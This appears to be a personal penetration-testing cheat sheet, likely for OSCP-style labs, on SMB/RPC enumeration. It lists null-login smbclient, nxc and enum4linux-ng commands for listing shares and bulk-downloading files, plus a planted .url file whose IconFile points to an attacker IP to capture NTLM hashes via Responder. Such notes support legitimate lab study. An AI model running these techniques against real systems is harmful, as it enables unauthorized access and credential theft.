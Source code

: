 # RPC/SMB

- try null logins
- can you upload files? maybe a URI attack? 

```bash
smbclient -N -L \\<target ip> # you should always consider using this. sometimes nxc and enum4linux-ng doesnt work properly

smb> recurse
smb> prompt off
smb>mget * 

# OR my preferred method
nxc smb <target ip> -u '' -p '' --shares

# if can access, use the spider module

nxc smb <target ip> -u '' -p '' --spider <share name> --regex .

# to list all readable files

nxc smb <target ip> -u '' -p '' -M spider_plus

#add -o DOWNLOAD_FLAG=True to download all files

enum4linux-ng -A <targetip> -R # the new enum4linux does not do RID cycling by default and thus can miss out users. add the -R to get RID cycling!

# if you can upload files, try running responder and then do this

upload any file there # you might get hash here

# if nothing happens, try this

create a file (name it as offsec.url for example)

# inside that file
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\<attacker ip>\%USERNAME%.icon
IconIndex=1

# upload offsec.url into the share
If this works you should see the username and hash (might need to wait a while)

```
- if not, wait till you have some creds and try again
- If you get a share name that looks unique, it could be a potential directory on a HTTP server (i.e. the Shenzi box)
